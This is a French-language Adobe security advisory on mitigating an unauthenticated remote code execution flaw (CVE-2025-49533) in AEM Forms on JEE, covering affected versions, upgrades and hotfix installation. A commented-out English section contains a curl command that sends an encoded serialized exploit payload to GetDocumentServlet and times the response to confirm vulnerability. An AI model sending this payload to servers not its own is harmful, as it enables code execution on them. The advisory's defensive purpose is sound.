 ```yaml
---
title: Réduire la vulnérabilité d’exécution de code à distance pour AEM Forms sur JEE (CVE-2025-49533)
description: Réduire la vulnérabilité d’exécution de code à distance pour AEM Forms sur JEE (CVE-2025-49533)
contentOwner: khsingh
products: SG_EXPERIENCEMANAGER/6.5/FORMS
solution: Experience Manager, Experience Manager Forms
feature: Developing
role: Admin
source-git-commit: 4d7f0609173b4a2315877024d803da00e6654a23
workflow-type: tm+mt
source-wordcount: '721'
ht-degree: 1%

---
```



# Réduire la vulnérabilité d’exécution de code à distance pour AEM Forms sur JEE (CVE-2025-49533)

Ce document fournit des conseils sur la résolution d’un problème de sécurité critique (CVE-2025-49533) dans AEM Forms on JEE qui pourrait permettre l’exécution de code non autorisé via un servlet non sécurisé.

## Présentation des types de déploiement AEM Forms

Cette vulnérabilité affecte différemment différents déploiements d’AEM Forms. Il est essentiel de comprendre votre type de déploiement pour déterminer les étapes de réduction appropriées.

### Version affectée

* Toutes les versions d’AEM Forms on JEE, de la version 6.0 à la version 6.5, sont affectées par cette vulnérabilité. Actuellement, seul AEM Forms 6.5 et ses packs de services sont gérés et pris en charge. Toutes les autres versions (6.0 à 6.4) ont atteint leur fin de vie (EOL).

### Correction des versions

* AEM 6.5 Forms Service Pack 23 avec correctif fourni pour corriger la vulnérabilité.

### Déploiements AEM Forms on JEE co-déployés et autonomes

**Co-déployé (AEM Forms + CQ EAR) :**

* AEM Forms JEE et AEM (CQ) créent et publient des archives d’application d’entreprise (EAR) ensemble sur le même serveur d’applications
* Fournit un environnement unifié avec des fonctionnalités Forms et la gestion de contenu AEM

**Autonome AEM Forms on JEE :**

* AEM Forms est déployé sur le serveur d’applications avec uniquement des composants JEE et sans aucun EAR AEM.
* Limité aux fonctionnalités spécifiques à JEE d’AEM Forms

### Comment identifier votre type de déploiement

Pour déterminer définitivement le type de déploiement, vérifiez les artefacts réellement déployés sur le serveur d’applications. En règle générale, mais sans s’y limiter, via la console d’administration du serveur.

**Indicateurs co-déployés :**

* Le point d’entrée `/lc` est accessible sur votre serveur (par exemple, `https://your-server/lc`)
* Vous pouvez accéder aux points d’entrée de création/publication d’AEM.
* La structure de l’URL inclut des chemins AEM tels que `/content/`, `/apps/` et `/etc/`
* Les fonctionnalités de gestion de contenu d’AEM sont disponibles avec Forms

**Indicateurs autonomes :**

* Seules les interfaces d’interface d’administration sont accessibles.
* Aucune fonctionnalité de création/publication AEM
* Limité aux URL et interfaces spécifiques à Forms JEE


## Versions affectées

| Produit | Versions nécessitant une réduction | Versions éligibles pour le correctif |
|---------|-----------------------------|-----------------------------|
| Adobe Experience Manager 6.5 Forms on JEE | Toutes les installations autonomes de Adobe Experience Manager 6.5 Forms on JEE | AEM 6.5 Service Pack 18 à Service Pack 23 |

## Résolution

### Solutions spécifiques à la version

| Version d’AEM Forms | Action requise |
|---|---|
| AEM 6.5 Forms Service Pack 18 - Service Pack 22 avec déploiement conjoint de l’EAR de création ou de publication d’AEM | [Mise à niveau vers AEM 6.5 Service Pack 23 ou version ultérieure](/help/release-notes/release-notes.md) |
| Pack de services 18 d’AEM 6.5 Forms - Pack de services 23 sans EAR de création ou de publication d’AEM co-déployé (pour le déploiement d’AEM Forms on JEE autonome) | [Appliquer le correctif](#apply-the-hotfix) |
| AEM 6.5 Forms Service Pack 17 et versions antérieures | &#x200B;1. [Mise à niveau vers AEM 6.5 Service Pack 23 ou version ultérieure](/help/release-notes/release-notes.md) <br> 2. Pour les déploiements autonomes d’AEM Forms sur JEE, [appliquez le correctif](#apply-the-hotfix). |

> **Remarque** : AEM Forms ne prend officiellement en charge que les six Service Packs les plus récents. Les utilisateurs disposant de versions plus anciennes doivent d’abord effectuer la mise à niveau vers le dernier Service Pack puis implémenter les mesures de sécurité requises.

## Considérations relatives au déploiement

### Pour les environnements en cluster

Lorsque vous utilisez un déploiement en cluster :

* Appliquez l’installation du correctif sur **tous les nœuds** du cluster
* Maintenir la cohérence en utilisant des versions de correctif identiques sur tous les serveurs
* Effectuez les mises à jour sur tous les nœuds avant de lancer tout redémarrage du service
* Vérifiez le correctif sur chaque nœud indépendamment à l’aide des étapes de vérification

### Pour les environnements à nœud unique

Lorsque vous utilisez un déploiement autonome d’AEM Forms sur JEE :

* Suivez un processus simplifié, car il n’y a aucun nœud supplémentaire à gérer.
* Effectuez toutes les étapes d’installation du correctif conformément aux instructions

<!-- ## Vulnerability Verification

Before implementing the fix, verify if your system is vulnerable by executing the following tests:

### Test Commands

#### 1. Test with Exploitable Payload
```bash
curl -o /dev/null -s -w "Total time: %{time_total}\n" https://${FORMS_HOST}/FormServer/GetDocumentServlet?serDoc=H4sIAAAAAAAAAK1WTWxbRRCetR3bsZI2P80fhf4HkpS%2Bl5C2aXFEyA9tXV5IUEw4%2BGCtnxfnlffX3X3E6YEDElKvCC4ckRAcKIdISFQckLhy5gRCQkLigAQcygGp4md2nxOnIWqSNpH8dndmd76Zb2dmc%2Bc3aBEc%2Bm7Qt6gRScc1FrkTcEeuvRqxiH3w%2FegX96feWU9CogAp4dxiFuTswAsppzLgEnotddJUJ83ZTXm%2BHgJAAg2fDXjNoCG1V5iB57zAF0aFUV8dEMYMzpqnfv7o9q%2Fi1MfXEpB4AOUmvA3EgmzIg5BxuSahK0Z1qV8zlyR3%2FBoiItrUDmh24LrMlk4837ApjAZuxWVND%2B7%2F%2BeHgXX99IgFQDyV0BJEMI7kY4zpMrKYwrCQCPY%2BWDBH5xhbAOkV%2FDMeXjPvUNerClbYhOa0bReaFLpVMFHBsfX3hG%2F%2FOZ%2BNJSBegvez4VebLVyKvwngBDpXxgC9cJgsor5cgV66sSWYHVSYkJEulmRKky7ZLBS67SltomFWyvAUtZZ96TFGWsqCzvD2CB2%2BsKY9vDP7Fv4hroJf%2FHuip1X6IuVC3ifJEaebOvb6%2F0tniTw1x%2BtK3%2F3z1Naqfg%2FEMjBEYXxOBYNyhrhnSNTegVRFjXaXVGpPizJKMKsVGkIvxjgykCLyIlJpIqYmUmjGlpqbU3KDU1JSaPPKl4zFzuiKQLFtuGMtAmsARHZwTmEvaB%2BeWumACHbFLy4wLTITXCnMEyHUC7bOYFZL6cpm6EWv5%2FMT799778Y8XCKQnHd%2BROEkODS8TSM3iBeQgCR1t0AbtBA5bjs%2FiSyvGCF1WYCMARRhcN4QpueIIAhesRyAlT6BVJ8MbAfcI8CFrrwTNLcznSzvu9tzmXtEgiPEmV6pKrlG%2F6jKeV3HnXqrbLNS1k4EBApf36sJGLJvnCWSrgR15mOsEzu0rFDy6EvuEVM48fmAEPtkfl7siVqVnzhXnp%2BuOKKBId8AD4T%2FrNMypHHoULwhkGtwRmD4A5nJLQcRtdsVR2d3WyF5D1RwuC77PuO5DDNPlGQLHd0l7At07JD6GPWm7jfrraHa44gpnqleMEHyyXMZCrK%2Bh68PLbfAsnMvBWTCwoJcktd%2Bcp2GjAJ9serC4it6NTYxdnLh8cfzC%2BbFRbFbHrIfp83ASsAPgrwV%2FT0AGsji2ql4IOUjhHHsBfg%2BhxMSR4Ngy8iUcXtdbOvGb1kITuvDbFm%2BAbuyVgPMe6MVdfThXpvq1mSn1vijtdhPntYkTsbJhArRXR7UeQ4Wn8IQye%2Bx%2FZgt6tYPZS9rsSKzc0exxBE3o2Uk4hfBZGN4MWq2Vrv1TSBKrs%2Fv2u3fBXNebR3UgROlPa8wzMIhjTtP0NAxBa6TeqA7c%2B93mC3I0AwkCp3drlleCQL8YW3JjoXID3%2FjHfwFu%2FuL8Puld7T%2FoF2Bw1xcAg9pffQ3spb6SaPahWUz2nsWT27L4iNb36G%2BvTrjYXD%2BCtOJ%2FTymsKB6uEqirm26v%2FwfLba%2FhawoAAA%3D%3D
```

#### 2. Test with Non-Exploitable Payload
```bash
curl -o /dev/null -s -w "Total time: %{time_total}\n" https://${FORMS_HOST}/FormServer/GetDocumentServlet?serDoc=1234
```

**Note**: Replace `${FORMS_HOST}` with your actual Forms server hostname and port.

### Vulnerability Confirmation
* **Vulnerable System**: Response time ≥ 5 seconds for exploitable payload
* **Secure System**: Response time ~600ms for both payloads
* **Indicator**: Significant difference in response times confirms the vulnerability -->

## Étapes de réduction

### Pour les serveurs avec CQ EAR co-déployé

* Vérifiez si AEM EAR est co-déployé dans votre instance JEE.
* Si l’instance de création ou de publication AEM EAR est co-déployée, [effectuez la mise à niveau vers AEM 6.5 Service Pack 23 ou version ultérieure](/help/release-notes/release-notes.md)

### Pour les serveurs sans déploiement EAR CQ co-déployé (AEM Forms on JEE Stand-alone)

#### Vérification de la version d’AEM Forms

1. Vérifiez que vous disposez d’un accès administratif à AEM Workbench.
1. [Assurez-vous que votre version d’AEM Forms](https://experienceleaguecommunities.adobe.com/t5/adobe-experience-manager/how-find-the-aem-forms-version-using-the-aem-admin-or-system/m-p/603733?profile.language=fr) est le pack de services 18 d’AEM 6.5 Forms via le pack de services 23.

#### Application du correctif

1. **Téléchargez le correctif :**
   * Accédez à la distribution logicielle Adobe pour télécharger le [correctif](https://nam04.safelinks.protection.outlook.com/?url=https%3A%2F%2Fexperience.adobe.com%2F%23%2Fdownloads%2Fcontent%2Fsoftware-distribution%2Fen%2Faem.html%3Fpackage%3D%2Fcontent%2Fsoftware-distribution%2Fen%2Fdetails.html%2Fcontent%2Fdam%2Faem%2Fpublic%2Fadobe%2Fpackages%2Fcq650%2Fhotfix%2FAEM%25206.5%2520Unauthenticated%2520RCE%2520in%2520LiveCycle&data=05%7C02%7Ckhsingh%40adobe.com%7Cf29c8505258840beed0408ddbe2956ff%7Cfa7b1b5a7b34438794aed2c178decee1%7C0%7C0%7C638875806949179671%7CUnknown%7CTWFpbGZsb3d8eyJFbXB0eU1hcGkiOnRydWUsIlYiOiIwLjAuMDAwMCIsIlAiOiJXaW4zMiIsIkFOIjoiTWFpbCIsIldUIjoyfQ%3D%3D%7C0%7C%7C%7C&sdata=0GELRBKwhkAFB6fmXNIsbsruBXquhhWX1BMGySEZutY%3D&reserved=0).
   * Enregistrez le fichier de correctif sur votre ordinateur local
   * Vérifier l’intégrité du fichier téléchargé

2. **Installez le correctif :**
   * Ouvrez **AEM Workbench**
   * Connexion au serveur AEM Forms concerné
   * Accédez à **Fenêtre → Afficher les composants →**
   * Cliquez avec le bouton droit dans la vue Composants et sélectionnez « Installer le composant »
   * Recherchez et sélectionnez le fichier de correctif
   * Suivez les invites de l&#39;assistant d&#39;installation et attendez la fin

3. **Attendre et valider :**
   * Attendez que tous les services soient complètement initialisés.

#### Résolution des problèmes

**Problèmes courants :**

* Vérifier que tous les services AEM Forms ont correctement démarré
* Vérifiez les journaux du serveur d’applications pour détecter toute erreur d’installation

